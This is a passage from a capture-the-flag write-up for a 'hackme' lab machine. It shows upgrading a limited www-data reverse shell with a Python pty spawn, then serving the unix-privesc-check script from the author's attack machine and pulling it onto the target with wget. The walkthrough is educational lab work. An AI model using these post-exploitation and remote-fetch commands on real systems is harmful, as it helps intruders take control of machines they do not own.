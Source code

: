 <div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/images/posts/2020-06-02-hackme-ctf-writeup/12-reverse-shell.png">
    </div>
</div>



I used the whoami command to check my current privilege, which showed I was www-data, a low-priv user. The shell received was also limited, so to upgrade it I ran the following. 

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
export TERM=xterm
export SHELL=bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/images/posts/2020-06-02-hackme-ctf-writeup/13-updated-shell.png">
    </div>
</div>

<br/>

### Privilege Escalation


The final step in this CTF was to escalate my user privilege to root. My first attempt was to run my favorite automated priv escalation script, also courtesy of the <a href="https://www.google.com/url?sa=t&amp;rct=j&amp;q=&amp;esrc=s&amp;source=web&amp;cd=1&amp;cad=rja&amp;uact=8&amp;ved=2ahUKEwikheDpypDlAhWhnOAKHTdMBVEQFjAAegQIBRAB&amp;url=http%3A%2F%2Fpentestmonkey.net%2Ftools%2Faudit%2Funix-privesc-check&amp;usg=AOvVaw0zKEIT3uLrcBFLsG1oZ63j">pentestmonkeys</a>. To get this script on the target, I uploaded it to my local attack machine webserver with the following command. 


```bash
$ cp unix-privesc-check /var/www/html
```

I started the apache2 web service with the following. 

```bash
$ service apache2 start
```

Then, I used wget in the target reverse shell to download the script to the target machine. 

```bash
$ wget http://192.168.8.128/unix-privesc-check
```


<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/images/posts/2020-06-02-hackme-ctf-writeup/14-upload-privesc.png">
    </div>
</div>
